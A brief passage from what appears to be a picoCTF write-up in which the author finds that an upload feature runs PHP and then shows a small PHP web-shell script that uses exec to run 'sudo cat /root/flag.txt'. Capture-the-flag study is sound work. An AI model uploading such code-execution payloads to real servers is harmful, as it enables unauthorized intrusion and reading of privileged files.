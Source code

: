 The clue tells us the file isn't being parsed, and from doing past picoCTF problems I had a suspicion it was written in PHP. I uploaded a helloworld.php file which had `<?php echo "Hello World!";?>` and confirmed my suspicion: the file isnt being santized and I can inject PHP code into it.

A simple PHP script to execute shell commands will do:
```php
<?php
	$output=null;
	$retvall=null;
	exec("sudo cat /root/flag.txt", $output, $retvall);
	print_r($output);
?>
```

